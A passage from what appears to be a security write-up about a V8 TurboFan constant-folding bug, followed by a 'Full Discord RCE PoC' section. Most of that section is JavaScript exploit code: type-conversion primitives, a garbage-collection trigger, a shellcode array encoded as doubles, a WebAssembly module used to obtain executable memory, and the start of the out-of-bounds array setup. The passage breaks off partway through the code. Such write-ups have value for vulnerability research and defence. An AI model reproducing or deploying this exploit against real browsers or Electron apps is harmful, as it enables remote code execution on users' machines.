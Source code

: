 * But now, TurboFan takes it a step further with constant folding optimization, simplifying the code even more. Instead of dynamically calculating length - 1 at runtime, TurboFan precomputes the updated value during compilation and replaces it directly. Why bother performing length - 1 when you can simply set the new length upfront?
    * n=Math.sign(0 - (-1))//1
    * let array = Array(n);; //Turbofan only expects 0, but we can create length 1
    * if (n != 0) {
    *   array.length = -1;
    * }
That means our array now has a length of 0xFFFF_FFFF, giving us access to memory far beyond its actual bounds on the V8 heap.


### Full Discord RCE PoC
Sharing the PoC but to understand how it works checkout the video on Youtube on how the exploit works after Out-of-bound access.
```js
let conversion_buffer = new ArrayBuffer(8);
let float_view = new Float64Array(conversion_buffer);
let int_view = new BigUint64Array(conversion_buffer);
BigInt.prototype.hex = function() {
    return '0x' + this.toString(16);
};
BigInt.prototype.i2f = function() {
    int_view[0] = this;
    return float_view[0];
}
Number.prototype.f2i = function() {
    float_view[0] = this;
    return int_view[0];
}
function gc() {
		for(let i=0; i<((1024 * 1024)/0x10); i++) {
			  var a = new String();
		}
}

let shellcode = [2.40327734437787e-310, -1.1389104046892079e-244, 3.1731330715403803e+40, 1.9656830452398213e-236, 1.288531947997e-312, 8.3024907661975715e+270, 1.6469439731597732e+93, 9.026845734376378e-308];

function pwn() {
    /* Prepare RWX */
    var buffer = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
    let module = new WebAssembly.Module(buffer);
    var instance = new WebAssembly.Instance(module);
    var exec_shellcode = instance.exports.main;

    function f(a) {
        let x = -1;
        if (a) x = 0xFFFFFFFF;
        let oob_smi = new Array(Math.sign(0 - Math.max(0, x, -1)));
        oob_smi.pop();
        let oob_double = [3.14, 3.14];
        let arr_addrof = [{}];
        let aar_double = [2.17, 2.17];
        let www_double = new Float64Array(8);
        return [oob_smi, oob_double, arr_addrof, aar_double, www_double];
    }
    gc();

```